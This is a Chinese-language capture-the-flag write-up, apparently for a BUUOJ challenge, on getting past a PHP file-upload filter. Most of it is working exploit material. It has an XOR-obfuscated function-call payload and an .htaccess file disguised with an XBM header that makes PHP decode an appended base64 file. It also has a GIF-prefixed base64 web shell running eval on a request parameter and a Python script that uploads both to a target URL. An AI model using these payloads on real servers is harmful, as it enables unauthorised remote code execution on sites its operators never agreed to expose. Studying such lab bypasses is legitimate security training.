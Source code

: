payload1:

```
${%A0%B8%BA%AB^%ff%ff%ff%ff}{%A0}();&%A0=get_the_flag
```





第二关

> 首先对文件后缀进行正则检查 , 如果文件后缀是以 " ph " 开头 , 则不通过检测 .
>
>
> 然后对文件内容进行检查 , 如果文件内容中出现 " <? " 这个部分 , 则不通过检测 .
>
> 最后通过 exif_imagetype() 函数对文件类型进行检查 , 如果文件不是一张图片 , 则不通过检测 .

**PHP版本是 PHP 7.2 , 所以` <script language='php'> ... </script> `这种写法已无法使用 . 要想绕过 " <? " 的检测 , 必须对文件内容进行编码(比如base64)再上传** .



 找到一种能够同时满足 图片文件 . PHP文件 , .htaccess文件 的文件格式 . **要满足PHP文件和配置文件的格式 ，就需要添加文件的 " 不解析行 " 了( 比如注释行 )**



**X-Bitmap(XBM)是一种古老但通用的图像文件格式 , 它与现在的许多Web浏览器都兼容 . X-Windows图形界面(UNIX和Linux常用的GUI)的C代码库xlib中有一个组件专门描述了它的规范 .**

**XBM 文件头是通过两行 #define 定义的 , 而这种定义方式刚好在 php文件 和 .htaccess文件 中代表注释**

```xb
.htaccess

#define width 1337
#define height 1337 
AddType application/x-httpd-php .aaa
php_value auto_append_file "php://filter/convert.base64-decode/resource=./shell.aaa"
```

```
shell.aaa:

GIF89a12		#12是为了补足8个字节，满足base64编码的规则
PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2NtZCddKTs/Pg==
```

```python
#paylaod

import requests
import base64

htaccess = b"""
#define width 1337
#define height 1337 
AddType application/x-httpd-php .ahhh
php_value auto_append_file "php://filter/convert.base64-decode/resource=./shell.aaa"
"""
shell = b"GIF89a12" + base64.b64encode(b"<?php eval($_REQUEST['cmd']);?>")
url = "http://be57968d-71f2-4a55-afda-5d2b4348fcc7.node3.buuoj.cn/?_=${%86%86%86%86^%d9%c1%c3%d2}{%86}();&%86=get_the_flag"

files = {'file':('.htaccess',htaccess,'image/jpeg')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)

files = {'file':('shell.aaa',shell,'image/jpeg')}
response = requests.post(url=url, data=data, files=files)
print(response.text)
```